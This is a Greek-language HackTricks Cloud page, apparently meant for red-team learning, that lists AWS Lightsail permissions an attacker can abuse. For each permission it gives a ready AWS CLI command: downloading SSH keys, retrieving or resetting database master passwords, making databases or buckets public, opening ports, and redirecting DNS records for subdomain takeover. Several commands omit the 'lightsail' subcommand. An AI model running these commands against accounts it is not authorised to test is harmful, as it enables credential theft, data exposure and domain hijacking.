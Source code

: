 # AWS - Lightsail Ανύψωση Προνομίων

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Lightsail

Για περισσότερες πληροφορίες σχετικά με το Lightsail ελέγξτε:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Σημειώστε ότι το Lightsail **δεν χρησιμοποιεί ρόλους IAM που ανήκουν στον χρήστη** αλλά σε ένα λογαριασμό που διαχειρίζεται από το AWS, οπότε δεν μπορείτε να εκμεταλλευτείτε αυτήν την υπηρεσία για ανύψωση προνομίων. Ωστόσο, **ευαίσθητα δεδομένα** όπως κώδικας, κλειδιά API και πληροφορίες βάσης δεδομένων μπορεί να βρεθούν σε αυτήν την υπηρεσία.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Αυτή η άδεια θα σας επιτρέψει να λάβετε τα κλειδιά SSH για πρόσβαση στις προεπιλεγμένες περιπτώσεις:
```
aws lightsail download-default-key-pair
```
**Πιθανή Επίπτωση:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:GetInstanceAccessDetails`

Αυτή η άδεια θα σας επιτρέψει να δημιουργήσετε κλειδιά SSH για πρόσβαση στις περιπτώσεις:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Πιθανή Επίπτωση:** Εντοπισμός ευαίσθητων πληροφοριών μέσα στις περιπτώσεις.

### `lightsail:CreateBucketAccessKey`

Αυτή η άδεια θα σας επιτρέψει να λάβετε ένα κλειδί για πρόσβαση στον κάδο:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Πιθανή Επίπτωση:** Βρείτε ευαίσθητες πληροφορίες μέσα στο bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Αυτή η άδεια θα σας επιτρέψει να λάβετε τα διαπιστευτήρια για πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Πιθανή Επίδραση:** Εντοπισμός ευαίσθητων πληροφοριών μέσα στη βάση δεδομένων.

### `lightsail:UpdateRelationalDatabase`

Αυτή η άδεια θα σας επιτρέψει να αλλάξετε τον κωδικό πρόσβασης για πρόσβαση στη βάση δεδομένων:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Αν η βάση δεδομένων δεν είναι δημόσια, μπορείτε επίσης να την κάνετε δημόσια με αυτές τις άδειες με τον εξής τρόπο

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Πιθανή Επίπτωση:** Εύρεση ευαίσθητων πληροφοριών μέσα στη βάση δεδομένων.

### `lightsail:OpenInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών προς το Διαδίκτυο.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Πιθανή Επίδραση:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:PutInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών προς το Διαδίκτυο. Σημειώστε ότι η κλήση θα κλείσει οποιαδήποτε θύρα που δεν έχει καθοριστεί σε αυτή.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Πιθανή Επίδραση:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:SetResourceAccessForBucket`

Αυτές οι άδειες επιτρέπουν τη χορήγηση πρόσβασης σε ένα bucket σε ένα παράδειγμα χωρίς καμία επιπλέον διαπιστευτήρια

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Πιθανή Επίπτωση:** Πιθανή νέα πρόσβαση σε κάδους με ευαίσθητες πληροφορίες.

### `lightsail:UpdateBucket`

Με αυτήν την άδεια, ένας επιτιθέμενος θα μπορούσε να χορηγήσει στον δικό του λογαριασμό AWS πρόσβαση για ανάγνωση σε κάδους ή ακόμα και να κάνει τους κάδους δημόσιους για όλους:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Πιθανή Επίδραση:** Πιθανή νέα πρόσβαση σε κάδους με ευαίσθητες πληροφορίες.

### `lightsail:UpdateContainerService`

Με αυτές τις άδειες, ένας επιτιθέμενος θα μπορούσε να χορηγήσει πρόσβαση σε ιδιωτικά ECRs από την υπηρεσία containers.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Πιθανή Επίδραση:** Απόκτηση ευαίσθητων πληροφοριών από ιδιωτικό ECR

### `lightsail:CreateDomainEntry`

Ένας επιτιθέμενος με αυτήν την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει προς τη δική του διεύθυνση IP (subdomain takeover), ή να δημιουργήσει ένα SPF record που του επιτρέπει να πλασάρει emails από τον τομέα, ή ακόμα και να ορίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανή Επίδραση:** Πάροχος τομέα

### `lightsail:UpdateDomainEntry`

Ένας επιτιθέμενος με αυτήν την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει προς τη δική του διεύθυνση IP (subdomain takeover), ή να δημιουργήσει ένα SPF record που του επιτρέπει να πλασάρει emails από τον τομέα, ή ακόμα και να ορίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανή Επίπτωση:** Πάροχος ενός τομέα

{% hint style="success" %}
Μάθε & εξάσκησε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθε & εξάσκησε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
{% endhint %}
